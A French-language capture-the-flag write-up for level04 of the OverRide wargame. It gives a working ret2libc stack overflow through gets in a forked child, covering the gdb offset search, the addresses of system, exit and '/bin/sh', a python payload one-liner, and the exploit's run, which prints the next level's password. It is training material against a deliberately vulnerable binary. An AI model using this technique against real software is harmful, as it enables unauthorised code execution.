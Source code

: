 # Level 04

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
asd
child is exiting...
```
Le programme decompiler nous montre un fork, et dans le child un gets, precede par "Give me some shellcode, k".

L'exploit se fait donc par le gets, et dans le processus parent, le programme affiche "child is exiting..." lorsque le child termine.

Pour reoriente le code vers le shellcode, nous allons definir une variable dans l'environnement pour jump dessus dans le code.

Afin de trouver l'adresse a ecraser nous allons utiliser gdb, mais avec le suivi du programme enfant pour avoir acces a cette partie du programme.

```
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child <--- suivi du programme fils
(gdb) run
Starting program: /home/users/level04/level04
[New process 1998]
Give me some shellcode, k
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1998]
0x6e6e6e6e in ?? ()
```

L'offset est 156.

La solution est de faire un shellcode comme suit :

[A*156] + [Adresse de system] + [Adresse de exit] + [Adresse de "/bin/sh"]

[A*156] : Ce sont les données de remplissage pour atteindre jusqu'à la partie de la pile où l'adresse de retour est stockée.

[Adresse de system] : L'adresse de retour est écrasée par l'adresse de la fonction system, ce qui redirige l'exécution du programme vers cette fonction.

[Adresse de exit] : Après l'appel à system, si la commande shell est quittée, l'exécution retournera à cette adresse, qui pointe vers exit, terminant ainsi le programme.

[Adresse de "/bin/sh"] : Ceci est l'argument pour la fonction system, qui doit être placé juste après l'adresse de system pour être correctement référencé en tant qu'argument de cette fonction.


Pour trouver les adresse de system exit et /bin/sh nous pouvons aller dans gdb

```
(gdb) b * 0x080486d0
Breakpoint 1 at 0x80486d0
(gdb) run
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486d0 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$3 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find 0xf7e6aed0, 0xffffffff, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

```
level04@OverRide:~$ python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' > /tmp/payload4
level04@OverRide:~$ cat /tmp/payload4 - | /home/users/level04/level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```